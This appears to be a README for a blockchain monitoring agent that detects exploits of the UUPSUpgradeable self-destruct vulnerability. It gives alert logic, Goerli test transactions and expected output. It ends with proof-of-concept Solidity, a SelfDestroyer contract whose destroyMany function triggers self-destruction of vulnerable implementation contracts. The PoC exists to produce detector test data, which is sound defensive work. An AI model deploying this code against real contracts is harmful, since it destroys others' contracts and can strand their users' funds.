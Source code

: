 # UUPSUpgradeable Exploit Detection Agent

## Description

This agent detects exploits of the UUPSUpgradeable vulnerability that cause vulnerable contracts to self-destruct [post-mortem](https://forum.openzeppelin.com/t/uupsupgradeable-vulnerability-post-mortem/15680)

## Supported Chains

Tested on:
- Ethereum
- Goerli

It should work on any other chain that supports ERC1967-style upgrades.

## Alerts

When it finds an `Upgraded(address)` event coming from a contract that was destroyed in the same block, this agent generates an `Exploit` alert with `Critical` severity. The alert metadata contains the addresses of the old implementation (victim) and the new implementation (attacker).

## Test Data

The agent behaviour can be verified with the following transactions on Goerli:

- [0xa969f9b0cc8b8530bd68486da27ffeaea3864bf1d31c1435d289bc7328484174](https://goerli.etherscan.io/tx/0xa969f9b0cc8b8530bd68486da27ffeaea3864bf1d31c1435d289bc7328484174) generated an `Upgraded` event but did not cause the source contract to self-destruc, so it should *not* trigger an alert
- [0x231b2a9f5710e780a9e8446cbb621210fa42cc94cbd144b36402d943284be096](https://goerli.etherscan.io/tx/0x231b2a9f5710e780a9e8446cbb621210fa42cc94cbd144b36402d943284be096) generated the `Upgraded` event and caused the source contract ([0xa3D62CD98A08b89adFF8dF7f78dAdB35710cec14](https://goerli.etherscan.io/address/0xa3d62cd98a08b89adff8df7f78dadb35710cec14)) to self-destruct, so it should trigger an alert
- [0x81be429b496486bc121cd392ef68afad3a683d9275cb1bb1afaa556e1c87c064](https://goerli.etherscan.io/tx/0x81be429b496486bc121cd392ef68afad3a683d9275cb1bb1afaa556e1c87c064) destroyed 2 separate contracts in a single transaction, so we expect 2 alerts to be generated

We expect the following results:

```
$ npm run tx 0xa969f9b0cc8b8530bd68486da27ffeaea3864bf1d31c1435d289bc7328484174

0 findings for transaction 0xa969f9b0cc8b8530bd68486da27ffeaea3864bf1d31c1435d289bc7328484174

$ npm run tx 0x231b2a9f5710e780a9e8446cbb621210fa42cc94cbd144b36402d943284be096

1 findings for transaction 0x231b2a9f5710e780a9e8446cbb621210fa42cc94cbd144b36402d943284be096 {
  "name": "UUPSUpgradeable Vulnerability Self-Destruct Exploit",
  "description": "Self-destructed implementation: 0xa3D62CD98A08b89adFF8dF7f78dAdB35710cec14",
  "alertId": "SUS-1",
  "protocol": "ethereum",
  "severity": "Critical",
  "type": "Exploit",
  "metadata": {
    "old_impl": "0xa3D62CD98A08b89adFF8dF7f78dAdB35710cec14",
    "new_impl": "0x1271Ea1e9D80d7F85Dce4fc31ed9105101f56850"
  }
}

$ npm run tx 0x81be429b496486bc121cd392ef68afad3a683d9275cb1bb1afaa556e1c87c064

2 findings for transaction 0x81be429b496486bc121cd392ef68afad3a683d9275cb1bb1afaa556e1c87c064 {
  "name": "UUPSUpgradeable Vulnerability Self-Destruct Exploit",
  "description": "Self-destructed implementation: 0x83982baBBA1b72a05622f9D829a3e7a796cA14dF",
  "alertId": "SUS-1",
  "protocol": "ethereum",
  "severity": "Critical",
  "type": "Exploit",
  "metadata": {
    "old_impl": "0x83982baBBA1b72a05622f9D829a3e7a796cA14dF",
    "new_impl": "0xBaEAB8ce7E4f89466E388C36d2aF9e1542ec87bB"
  }
},{
  "name": "UUPSUpgradeable Vulnerability Self-Destruct Exploit",
  "description": "Self-destructed implementation: 0x008b1762F5E8590bb94B9DbC8417b22Bc1c92f1D",
  "alertId": "SUS-1",
  "protocol": "ethereum",
  "severity": "Critical",
  "type": "Exploit",
  "metadata": {
    "old_impl": "0x008b1762F5E8590bb94B9DbC8417b22Bc1c92f1D",
    "new_impl": "0xBaEAB8ce7E4f89466E388C36d2aF9e1542ec87bB"
  }
}

```

## Proof of concept to generate new test data

There are 2 contracts in `src/sol_poc`:

- `PretendUUPSUpgradeable`: this contains the relevant parts of [ERC1967Upgrade](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/release-v4.3/contracts/proxy/ERC1967/ERC1967Upgrade.sol). When called with `_upgradeToAndCall`, it generates an `Upgraded(newImplementation)` event and a `DELEGATECALL` to the new implementation
- `SelfDestroyer`: contains a single `receive()` function that acts as the migration function for the new implementation. The only thing it does is call `selfdestruct` in order to trigger the exploit.

To generate a transaction that would exhibit the sign of a successful attack:

1. deploy `PretendUUPSUpgradeable`
2. deploy ``SelfDestroyer``
3. call `PretendUUPSUpgradeable.upgradeToAndCall(selfDestroyerAddr, [], true)`
4. this will cause a `delegatecall` to `SelfDestroyer` with empty calldata, hence the call to the `receive()` function

It may be necessary to increase the gas limit manually in order for the self-destruction to be successful.

The code of the PoC contracts is added below.

### PretendUUPSUpgradeable.sol

```solidity
// SPDX-License-Identifier: MIT

pragma solidity 0.8.10;

contract PretendUUPSUpgradeable {
    /**
     * @dev Emitted when the implementation is upgraded.
     */
    event Upgraded(address indexed implementation);

    /**
     * @dev Stores a new address in the EIP1967 implementation slot.
     */
    function _setImplementation(address newImplementation) private {
        // Do nothing. This is a pretend upgradeable.
    }

    /**
     * @dev Perform implementation upgrade
     *
     * Emits an {Upgraded} event.
     */
    function _upgradeTo(address newImplementation) internal {
        _setImplementation(newImplementation);
        emit Upgraded(newImplementation);
    }

    /**
     * @dev Perform implementation upgrade with additional setup call.
     *
     * Emits an {Upgraded} event.
     */
    function upgradeToAndCall(
        address newImplementation,
        bytes memory data,
        bool forceCall
    ) public {
        _upgradeTo(newImplementation);
        if (data.length > 0 || forceCall) {
            newImplementation.delegatecall(data);
        }
    }
}
```

### SelfDestroyer.sol

```solidity
// SPDX-License-Identifier: MIT

pragma solidity 0.8.10;

interface Upgradeable {
    function upgradeToAndCall(
        address newImplementation,
        bytes memory data,
        bool forceCall
    ) external;
}

contract SelfDestroyer {
    /**
     * For maximum laziness, we just call self-destruct in the receive() function
     * so that we can trigger the attack with empty calldata
     */
    receive() external payable {
        selfdestruct(payable(msg.sender));
    }

    function destroyMany(Upgradeable[] calldata contracts) external {
        for (uint i = 0; i < contracts.length; i++) {
            contracts[i].upgradeToAndCall(address(this), "", true);
        }
    }
}
```